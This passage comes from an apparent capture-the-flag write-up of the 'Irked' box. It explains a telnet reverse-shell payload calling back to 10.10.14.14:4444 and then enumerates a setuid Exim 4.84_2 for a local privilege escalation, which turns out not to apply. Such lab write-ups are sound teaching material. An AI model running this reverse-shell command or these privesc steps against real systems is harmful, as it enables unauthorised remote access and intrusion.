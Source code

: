 

So in this payload, it's using sleep to keep the payload running for
some minimum amount of time.

Looking at the rest of the command:



    (sleep 4054|telnet 10.10.14.14 4444|while : ; do sh && break; done 2>&1|telnet 10.10.14.14 4444 >/dev/null 2>&1 &)



Next comes telnet back to me piped into a while true (`:` is true in a
shell), until the `sh` returns success, in which case it breaks, sends
stderr to stdout, and pipes that back into telnet back to me. The
handler in Metasploit must be smart enough to handle those two different
telnet connections on the same port.

### Exim

#### Enumeration

I noticed that the box was listening on port 25 on localhost:



    djmardov@irked:/dev/shm$ netstat -antp | grep ":25"
    (Not all processes could be identified, non-owned process info
     will not be shown, you would have to be root to see it all.)
    tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -               
    tcp6       0      0 ::1:25                  :::*                    LISTEN      -  



If I connect to it, I see the banner:



    djmardov@irked:/tmp$ nc 127.0.0.1 25                                        
    220 irked ESMTP Exim 4.84_2 Tue, 20 Nov 2018 09:53:00 -0500  



`exim4` was a setuid binary in my `LinEnum.sh` output:



    -rwsr-xr-x 1 root root 1085300 Feb 10  2018 /usr/sbin/exim4



#### Local Privesc Vulnerability - Fail

And this version does have a known [local privesc
vulnerability](https://www.exploit-db.com/exploits/39549). Unfortunately
for me, to be vulnerable, the system needs to be compiled with Perl
support, which I can check with the following command:



    djmardov@irked:/dev/shm$ /usr/sbin/exim -bV -v | grep -i Perl
    djmardov@irked:/dev/shm$
